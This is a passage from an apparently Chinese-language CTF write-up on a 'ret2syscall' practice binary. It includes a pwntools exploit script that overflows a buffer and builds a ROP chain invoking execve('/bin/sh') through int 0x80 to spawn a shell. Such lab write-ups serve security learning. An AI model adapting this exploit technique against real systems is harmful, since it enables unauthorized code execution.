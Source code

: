 执行完pop指令就会ret去执行int 0x80指令

#### Exploit

```python
from pwn import*


o = process('./ret2syscall')
bin_sh = 0x0804a020
pop_ebx_eax_ret = 0x0804843e
int_80 = 0x08048441
payload = 'a'*18 + 'a'*4    # 覆盖变量和ebp
payload += p32(pop_ebx_eax_ret) + p32(bin_sh) + p32(11)
payload += p32(int_80)
o.sendline(payload)
o.interactive()
```

直接在run函数的ret指令处下断点, 看栈是否和预期结果一样

![image-20220316183701353](Self-help_Clown.assets/image-20220316183701353.png)

一样的, 最后执行完即可拿到shell

![image-20220316183714958](Self-help_Clown.assets/image-20220316183714958.png)

